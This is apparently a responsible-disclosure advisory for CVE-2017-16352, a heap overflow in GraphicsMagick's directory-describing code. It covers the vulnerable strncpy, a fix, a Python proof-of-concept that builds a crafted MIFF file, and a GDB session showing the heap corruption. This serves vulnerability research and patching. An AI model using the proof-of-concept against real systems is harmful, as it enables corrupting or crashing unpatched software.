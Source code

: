 ```yaml
---
title: "GraphicsMagick Heap Overflow when Describing Directories (CVE-2017-16352)"
header:
  overlay_image: /assets/images/cve-2017-16352/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Life is Strange Stills by Me"
tags:
  - vulnresearch
  - graphicsmagick
  - heapoverflow
---
```


An unsafe call to `strncpy` in `magick/describe.c` causes a heap overflow when
describing images with overly long directories. The vulnerable code path can be
triggered when verbosely identifying specially crafted MIFF files.

This vulnerability was reported as part of the Beyond Security SecuriTeam Secure
Disclosure program. It is also published on their blog at
[https://blogs.securiteam.com/index.php/archives/3494](https://blogs.securiteam.com/index.php/archives/3494).

## Affected Versions

The current release (1.3.26) is affected. Further analysis is required to
determine which versions are also affected by the vulnerability.

## Vulnerability Scores

* Classification: CWE-122: Heap-based Buffer Overflow
* CVSSv3: 7.6 (AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:H)

## Description

The vulnerable code exists in the function `DescribeImage()` in the file
`magick/describe.c`. The call to `strncpy` on line 855 does not limit the size
to be copied to the size of the buffer copied to. Instead, the size is
calculated by searching for a newline or a null byte in the directory name.

```c
844       /*
845         Display visual image directory.
846       */
847       image_info=CloneImageInfo((ImageInfo *) NULL);
848       (void) CloneString(&image_info->size,"64x64");
849       (void) fprintf(file,"  Directory:\n");
850       for (p=image->directory; *p != '\0'; p++)
851         {
852           q=p;
853           while ((*q != '\n') && (*q != '\0'))
854             q++;
855           (void) strncpy(image_info->filename,p,q-p);
856           image_info->filename[q-p]='\0';
857           p=q;
...
880         }
881       DestroyImageInfo(image_info);
```

Since the field `filename` in the `ImageInfo` struct has the static size of
2053, the heap can be easily corrupted by forging an overly long directory name.

```c
type = struct _ImageInfo {
...
    FILE *file;
    char magick[2053];
    char filename[2053];
    _CacheInfoPtr_ cache;
    void *definitions;
    Image *attributes;
    unsigned int ping;
    PreviewType preview_type;
    unsigned int affirm;
    _BlobInfoPtr_ blob;
    size_t length;
    char unique[2053];
    char zero[2053];
    unsigned long signature;
}
```

One possible way to trigger the bug is to run the `identify` command on a
specially crafted MIFF format file with the verbose flag.

## Mitigation

To fix this issue, we recommend the following non-intrusive fix. The addition of
a check in the `while` loop to ensure that `(q-p)` is never larger than the size
of the buffer (`MaxTextExtent`) will prevent the unbounded overflow.

```c
850       for (p=image->directory; *p != '\0'; p++)
851         {
852           q=p;
853           while ((*q != '\n') && (*q != '\0') && ((q-p) < MaxTextExtent))
854             q++;
855           (void) strncpy(image_info->filename,p,q-p);
856           image_info->filename[q-p]='\0';
857           p=q;
...
880         }
881       DestroyImageInfo(image_info);
```

Additionally, enabling the `FORTIFY_SOURCE` flag when compiling with gcc and
GLIBC will mitigate the exploitability of the bug.

## Proof of Concept

The following proof of concept script will generate a specially crafted MIFF
file `exploit.miff`.

```python
#!/usr/bin/python

from pwn import *

partitions = ('id=ImageMagick  version=1.0\nclass=DirectClass  matte=False\n' +
              'columns=1  rows=1  depth=16\nscene=1\nmontage=1x1+0+0\n\x0c\n' +
              ':\x1a',
              '\n\x00\xbe\xbe\xbe\xbe\xbe\xbe\n')
output = "exploit.miff"

def main():
    payload = "A"*10000
    payload = partitions[0] + payload + partitions[1]
    file(output, "w").write(payload)

if __name__ == "__main__":
    main()
```

Running the GraphicsMagick `gm` utility with the arguments `identify -verbose`
in GDB and breaking after the vulnerable `strncpy` call, and examining the
corrupted `ImageInfo` object demonstrates that the heap corruption was
successful.

```shell
gef➤  r identify -verbose exploit.miff
...
gef➤  br describe.c:856
Breakpoint 1 at 0x4571df: file magick/describe.c, line 856.
...
gef➤  p *image_info
$3 = {
...
  compression = UndefinedCompression,
  file = 0x0,
  magick = '\000' <repeats 2052 times>,
  filename = 'A' <repeats 2053 times>,
  cache = 0x4141414141414141,
  definitions = 0x4141414141414141,
  attributes = 0x4141414141414141,
  ping = 0x41414141,
  preview_type = 1094795585,
  affirm = 0x41414141,
  blob = 0x4141414141414141,
  length = 0x4141414141414141,
  unique = 'A' <repeats 2053 times>,
  zero = 'A' <repeats 2053 times>,
  signature = 0x4141414141414141
}
```

## Credit

This issue was discovered by Terry Chia (@ayrx) and Jeremy Heng (@nn\_amon).

## Timeline

* 5 Oct 2017 - Discovery of the vulnerability.
* 17 Oct 2017 - Reporting of vulnerability to Beyond Security under the
  SecuriTeam Secure Disclosure program.
* 1 Nov 2017 - Bounty paid and vulnerability disclosed on the Beyond Security
  SecuriTeam Secure Disclosure blog.
* 2 Nov 2017 - CVE-2017-16352 assigned.
